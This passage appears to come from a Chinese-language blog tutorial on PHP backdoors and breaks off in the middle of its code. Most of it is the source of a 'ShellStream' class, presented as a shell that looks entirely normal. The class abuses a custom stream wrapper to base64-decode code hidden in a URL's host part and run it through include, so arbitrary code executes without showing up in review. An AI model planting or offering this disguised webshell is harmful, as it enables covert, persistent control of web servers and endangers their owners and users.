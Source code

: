 通过如上的代码，经过执行后，可以输出一个 `hello world`

![HelloWorld](http://image.3001.net/images/20180704/15306857626945.png!small)

## 0x02 后门示例

通过上述程序，我们实现了通过 `include` 指令直接执行 `php` ，并插入我们想要的效果，我们现在根据这个原理写一个Shell：

### 后门程序

```
<?php
/**
 * 异形 Shell，一串看似完全正常代码
 * @author dxkite <dxkite@qq.com>
 * @link //dxkite.cn
 */

class ShellStream
{
    protected $position;
    protected $code;

    public function stream_open($path, $mode, $options, &$opened_path)
    {
        $url = parse_url($path);
        $name = $url["host"];
        $this->code = base64_decode($name);
        $this->position = 0;
        return true;
    }

    public function stream_read($count)
    {
        $ret = substr($this->code, $this->position, $count);
        $this->position += strlen($ret);
        return $ret;
    }

    public function stream_tell()
    {
        return $this->position;
    }

    public function stream_eof()
    {
        return $this->position >= strlen($this->code);
    }

    public function stream_seek($offset, $whence)
    {
        switch ($whence) {
            case SEEK_SET:
                if ($offset < strlen($this->code) && $offset >= 0) {
                    $this->position = $offset;
                    return true;
                } else {
                    return false;
                }
                break;

            case SEEK_CUR:
                if ($offset >= 0) {
                    $this->position += $offset;
```